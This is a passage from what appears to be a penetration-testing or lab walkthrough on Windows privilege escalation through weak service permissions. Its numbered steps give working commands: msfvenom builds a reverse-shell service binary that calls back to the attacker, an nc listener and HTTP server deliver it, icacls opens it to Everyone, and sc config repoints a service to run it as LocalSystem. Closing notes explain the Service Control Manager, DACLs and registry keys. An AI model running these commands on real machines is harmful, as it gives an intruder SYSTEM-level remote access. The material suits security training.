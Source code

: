 The `BUILTIN\\Users` group has the `SERVICE_ALL_ACCESS` permission, which means any user can reconfigure the service.

3. Build another exe-service reverse shell and start a listener for it on the attacker's machine:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4447 -f exe-service -o rev-svc3.exe

# nc -lvp 4447

# python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
  
4. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc3.exe -O rev-svc3.exe
```

5. Grant permissions to `Everyone`:

```text
C:\> icacls C:\Users\unprivilegedusername\rev-svc3.exe /grant Everyone:F
```

6. Change the service's associated executable and account:

```text
C:\> sc config NamedService binPath= "C:\Users\unprivilegedusername\rev-svc3.exe" obj= LocalSystem
```

We can use any account to run the service. `LocalSystem` is just the highest privileged account available. 

To trigger the payload, restart the service:

```text
C:\> sc stop NamedService
C:\> sc start NamedService
```

## Notes

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the 
state of services as needed, checking the current status of any given service and generally providing a way to configure services.

* Use the `sc qc someservice` command for more info on a service. The associated executable is specified through the 
`BINARY_PATH_NAME` parameter, and the account used to run the service is shown on the `SERVICE_START_NAME` parameter.
* Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, 
query status, query configuration, or reconfigure the service, amongst other privileges. 
* All services configurations are stored in the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`
* A subkey exists for every service in the system. If a DACL has been configured for the service, it will be stored 
in a subkey called `Security`. Only administrators can modify such registry entries by default.

